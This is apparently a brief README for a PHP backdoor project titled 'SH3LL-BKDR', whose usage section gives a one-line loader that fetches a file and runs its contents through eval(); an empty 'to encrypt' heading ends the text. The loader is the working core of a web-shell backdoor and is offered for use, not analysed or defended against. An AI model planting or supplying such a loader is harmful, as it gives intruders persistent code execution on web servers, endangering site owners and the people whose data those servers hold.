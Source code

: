 ## SH3LL-BKDR

### to use
```
<?php eval("?>".file_get_contents("link_raw.php"));?>
```
### to encrypt
